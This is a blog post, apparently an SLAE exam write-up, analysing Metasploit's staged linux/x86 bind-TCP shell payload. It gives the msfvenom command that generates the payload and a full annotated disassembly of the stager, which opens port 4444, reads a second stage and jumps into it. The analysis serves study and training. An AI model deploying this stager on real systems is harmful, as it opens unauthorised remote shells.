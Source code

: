 ```yaml
---
title: SLAE Exam 5 Shellcode Analysis - Part 2
category: Security
tags: [slae, shell, assembly, programming]
---
```


I'm about to make up for some lost time! Today we're moving straight into part two of assignment 5. We'll be following the same basic analysis process, but in this post we'll be looking at the MSF staged-bind-shell payload. I'm looking forward to seeing how this works, because I've used it several times, but never bothered to look deeper. I guess that makes me a bad infosec operator! Anyways, let's dig in!

## Problem Statement

* Take up at least 3 shellcode samples created using Msfpayload for linux/x86
* Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
* Present your analysis

As previously mentioned, we're looking at msfvenom's `linux/x86/shell/bind_tcp` payload. If you missed [Part One]({% post_url 2018-03-11-slae-exam-5-shellcode-analysis-part-1 %}), I highly recommend going back and reading that. Once you're all caught up, rejoin us below!

#### Generating the Files

We'll quickly get started by generating our raw and disassembled files.

```bash
root@kali:~/courses/slae/exam/assignment5# msfvenom -p linux/x86/shell/bind_tcp -a x86 --platform linux > staged_bind_shell.raw

root@kali:~/courses/slae/exam/assignment5# ndisasm -b 32 staged_bind_shell.raw > staged_bind_shell_analyzed.nasm
```


## Analysis

Now let's dig through the assembly and see what's really going on. One reference you'll want to have to follow along are these [socketcall numbers](http://jkukunas.blogspot.com/2010/05/x86-linux-networking-system-calls.html) that I came across. Also, full details for any of the functions called can be found on the second man page for each function (eg: man 2 function_name).


#### Declare Memory Region for Future Use

```
00000000      push byte +0x7d           ; push 7d
00000002      pop eax                   ; SYSCALL(125) // man 2 mprotect
00000003      cdq                       ; clear EDX
00000004      mov dl,0x7                ; prot mode, 7 = READ/WRITE/EXEC
00000006      mov ecx,0x1000            ; size of memory will be 0x1000
0000000B      mov ebx,esp               ; pointer to memory will be esp
0000000D      and bx,0xf000             ; align the address in bx to a page (0x1000 is size of a page according to "getconf PAGE_SIZE")
00000012      int 0x80                  ; call mprotect(esp, 0x1000, 7)
```

Here, the payload is going to prepare a section of memory for receiving the shellcode by calling `mprotect`. `mprotect` changes protection for the calling process's memory pages specified in the call. In this case, we are setting the memory protection to 7, which is a bitwise-and of the `PROT_READ`, `PROT_WRITE`, and `PROT_EXEC` values.


#### Make the Socket

```
00000014      xor ebx,ebx               ; Clear EBX
00000016      mul ebx                   ; Clear EAX, EDX
00000018      push ebx                  ; Push argument 0x00000000 (protocol of socket)
00000019      inc ebx                   ; socketcall number for SOCKET (found at /usr/include/linux/net.h)
0000001A      push ebx                  ; Push argument 0x00000001 (type of socket) SOCK_STREAM (see Assignment 1 for details)
0000001B      push byte +0x2            ; Push argument 0x2 (domain of socket) AF_INET (see Assignment 1 for details)
0000001D      mov ecx,esp               ; store pointer to [0x2, 0x00000001, 0x00000000] in ecx
0000001F      mov al,0x66               ; SYSCALL(0x66) // man 2 socketcall
00000021      int 0x80                  ; call socketcall(1, esp) -> socket(2, 1, 0) -> socket(AF_INET, SOCK_STREAM, 0) (see Assignment 1 for details)
```

Obviously, we need a socket to operate on. Socketcall is an interesting function, and I recommend reading the manpage for it in order to fully understand what's happening with it. Basically, the first argument to socketcall will be a number indicating which socket-based function to call, and the second argument will be a pointer to the arguments for that socket-based function. The numbers for the socket-based functions can be found above in the link posted at the beginning of the analysis. The rest of these operations have been covered in previous posts for SLAE, so I will ask that if the comments don't make sense, please review these earlier posts and then come back.


#### Set Socket Options

```
00000023      push ecx                  ; [*(2, 1, 0)] // current top of stack
00000024      push byte +0x4            ; [4, *(2, 1, 0)] // stack
00000026      push esp                  ; [*(4), 4, *(2, 1, 0)] // stack
00000027      push byte +0x2            ; [2, ...] // stack
00000029      push byte +0x1            ; [1, 2, ...] // stack
0000002B      push eax                  ; [SOCKFD, 1, 2, *(4), 4, *(2, 1, 0)] // stack
0000002C      xchg eax,edi              ; mov SOCKFD into edi, edi into eax
0000002D      mov ecx,esp               ; ecx now points to [SOCKFD, 1, 2, *(4), 4, *(2, 1, 0)]
0000002F      push byte +0xe            ; socketcall number for setsockopt
00000031      pop ebx                   ; EBX holds 0xe
00000032      push byte +0x66           ; prepare for syscall to socketcall
00000034      pop eax                   ; SYSCALL(0x66) // man 2 socketcall // used for next line: /usr/include/asm-generic/socket.h
00000035      int 0x80                  ; call socketcall(14, esp) -> setsockopt(SOCKFD, 1, 2, *4, 4) -> setsockopt(SOCKFD, SOL_SOCKET, SO_REUSEADDR, *4, 4)
```

Some extra options were specified for our socket in this section. This whole section sets the `SO_REUSEADDR` option on our socket. This option allows our program to bind to an address which is in a TIME_WAIT state. So, if our shellcode died for some reason, but launched again 10 seconds later, if we didn't set this option, the bind call would fail because the IP/PORT combo would be in a TIME_WAIT state. With this option, we can re-bind immediately if something bad happens.


#### Bind Socket

```
00000037      xchg eax,edi              ; restore SOCKFD into eax
00000038      add esp,byte +0x14        ; remove 0x14 (20) bytes from the stack
0000003B      pop ecx                   ; [*(2, 1, 0)]
0000003C      pop ebx                   ; 0x0000002 // man 2 bind
0000003D      pop esi                   ; 0x0000001 //
0000003E      push edx                  ; [0]
0000003F      push dword 0x5c110002     ; [0x5c110002, 0]
00000044      push byte +0x10           ; [0x10, 0x5c110002, 0]
00000046      push ecx                  ; [*(0x5c110002, 0), 0x10, 0x5c110002, 0]
00000047      push eax                  ; [SOCKFD, *(0x5c110002, 0), 0x10, 0x5c110002, 0]
00000048      mov ecx,esp               ; ecx now points to [SOCKFD, *(0x5c110002, 0), 0x10, 0x5c110002, 0]
0000004A      push byte +0x66           ; prepare for syscall to socketcall
0000004C      pop eax                   ; SYSCALL(0x66) // man 2 socketcall
0000004D      int 0x80                  ; call socketcall(2, esp) -> bind(SOCKFD, *sockaddr, sockaddr_len) -> bind(SOCKFD, {sin_family: 0x0002, sin_port: 0x115c (4444), sin_addr.s_addr: 0x00000000}, 0x10)
```

This section is pretty straightforward. We bind our socket to `0.0.0.0:4444`. Review comments for the details on each instruction.


#### Listen for Connections

```
0000004F      shl ebx,1                 ; shift 2 left once, resulting in 4 // man 2 listen
00000051      mov al,0x66               ; SYSCALL(0x66) // man 2 socketcall
00000053      int 0x80                  ; call socketcall(4, esp) -> listen(SOCKFD, &ecx) // the address of ecx is just the backlog int, no worries
```

Again, this section is very simple. We are just marking the socket as a passive socket that will be used to accept incoming connection requests using `accept`.


#### Accept Connections
```
00000055      push eax                  ; push return value of 0
00000056      inc ebx                   ; inc ebx to 5 // man 2 accept
00000057      mov al,0x66               ; SYSCALL(0x66) // man 2 socketcall
00000059      mov [ecx+0x4],edx         ; ecx is now pointing to [SOCKFD, 0x00000000, 0x10] // we don't care about sockaddr returning to us
0000005C      int 0x80                  ; call socketcall(5, ecx) -> accept(SOCKFD, NULL, 0x00000010)
```

Yet another simple section, where we instruct our socket to extract the first connection request on the queue of pending connections and return the file descriptor of a newly created socket for that connection.


#### Read From New Connection

```
0000005E      xchg eax,ebx              ; move returned NEWFD into ebx, SOCKFD into eax
0000005F      mov dh,0xc                ; edx now 0x00000c00
00000061      mov al,0x3                ; SYSCALL(3) // man read
00000063      int 0x80                  ; read(NEWFD, ECX, 0xC00)
```

Since this is a staged connection, we will read 0xc00 bytes from our new connection, and store the received data onto the stack.


#### Close STDIN

```
00000065      xchg ebx,edi              ; store NEWFD in edi
00000067      pop ebx                   ; pop 0x00000000 into ebx
00000068      mov al,0x6                ; SYSCALL(6) // man 2 close
0000006A      int 0x80                  ; close(0) // close stdin
```

This was an interesting section. All it's doing is closing STDIN, but why? Apparently, this is wise to do so that no data from STDIN can interefere with the shell. Cool find!


#### Jump to the Staged Shellcode

```
0000006C      jmp ecx                   ; jump to data received from NEWFD (staged payload)
```

ECX is still pointing to the staged shellcode. So, we are simply passing execution to that newly received shellcode in this final section!


## Wrapping Up

The `linux/x86/shell/bind_tcp` payload was a very cool payload to dissect. I learned a lot about the `socketcall` function, as well as how to read data onto the stack and mark the section of code as readable, writable, and executable. Overall, I had a great time doing this assignment and I can't wait to move on to the commonly used reverse tcp shell! Until then, keep grinding!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
